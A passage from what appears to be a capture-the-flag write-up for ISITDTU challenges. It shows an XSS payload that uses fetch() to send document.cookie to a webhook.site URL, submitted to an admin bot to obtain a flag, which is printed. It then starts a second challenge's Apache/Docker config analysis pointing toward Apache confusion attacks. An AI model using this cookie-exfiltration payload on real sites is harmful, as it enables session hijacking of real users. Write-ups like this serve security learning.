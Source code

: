 
```js
fetch('https://webhook.site/0139531b-9559-42d0-a71a-b43e039822c2?cookie=' + encodeURIComponent(document.cookie))
```

Save note and submit link for bot -> get the flag


![image](https://hackmd.io/_uploads/Sy6rGjig1l.png)


```
ISITDTU{d364c13b91d3bd0ecb3ffed49b229fc06b1208e8}
```

### S1mple

![image](https://hackmd.io/_uploads/rJSk0qig1e.png)


```dockerfile
FROM servertest2008/simplehttpserver:1.4

EXPOSE 80
RUN echo "flag_here" > /.htpasswd
CMD ["/bin/bash", "/start.sh"]
```

In docker image there are echo fake flag commands. This could be a hint of Confusion Attacks in apache


![image](https://hackmd.io/_uploads/SyhyKoieye.png)


Read more here: https://blog.orange.tw/posts/2024-08-confusion-attacks-en/


RewriteRule Flags used
```con
<VirtualHost *:80>
    DocumentRoot /var/www/html/src

    <FilesMatch "\.php$">
        SetHandler  "proxy:unix:/run/php/php7.0-fpm.sock|fcgi://localhost/"
    </FilesMatch>

    <Proxy "fcgi://localhost/" enablereuse=on max=10>
    </Proxy>

    <Directory /var/www/html/src/>
        Options FollowSymLinks
        AllowOverride All
    </Directory>


    RewriteEngine On
    RewriteRule  ^/website-(.*).doc$   /$1.html

    RewriteCond %{REQUEST_METHOD} OPTIONS
    RewriteRule ^(.*)$ $1 [R=200,L]

    ErrorLog ${APACHE_LOG_DIR}/error_php.log
    CustomLog ${APACHE_LOG_DIR}/access_php.log combined

</VirtualHost>
```
Investigate the provided Docker image. Realize that the root user has been acting suspiciously

